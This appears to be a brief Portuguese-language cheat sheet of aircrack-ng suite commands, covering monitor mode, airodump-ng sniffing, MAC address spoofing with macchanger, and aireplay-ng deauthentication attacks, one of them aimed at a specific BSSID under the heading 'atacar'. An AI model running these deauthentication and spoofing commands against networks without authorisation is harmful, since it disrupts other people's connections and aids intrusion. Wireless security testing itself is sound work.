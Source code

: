 # aircrack-ng Linha de Comando:

### Checando dispositivos de rede:
>  ifconfig

### Ativando a interface de monitoramento:
> airmon-ng start wlan0

### Desativando a interface de monitoramento:
> airmon-ng stop wlan0mon

### Fazendo monitoramento do ar:
> airodump-ng wlan0mon

### Fazendo monitoramento com restrição de canal e BSSID
> airodump-ng wlan0mon -c <canal> --bssid <bssid da rede>

### Desativando dispositivo de rede:
> ifconfig wlan0 down

### Usando o MacChanger:
> macchanger --help

### MAC randômico:
> macchanger -r wlan0

### Epeceficicar MAC:
> macchanger -m <MAC> wlan0

### Ver MAC atual e clonado:
> macchanger -s wlan0

### Recuperar MAC original:
> macchanger -p wlan0

### Filtrando monitoramento
> airodump-ng wlan0mon -c <canal> --bssid <bssid da rede>

### Ataque de desautenticação
> aireplay-ng -0 10 -a <bssid> wlan0mon

### How do I run NetworkManager on Kali Linux?
> service NetworkManager start or systemctl start NetworkManager 

### Starting monitor mode in determined channel (Ex: channel 5):

> airmon-ng start wlan0mon 5
> airmon-ng stop wlan1mon
> airmon-ng start wlan1mon 6

### monitorar bssid especifico
> airodump-ng wlan1mon --bssid AC:75:1D:7F:96:64 

### atacar
> aireplay-ng -0 10 -a AC:75:1D:7F:96:64 wlan1mon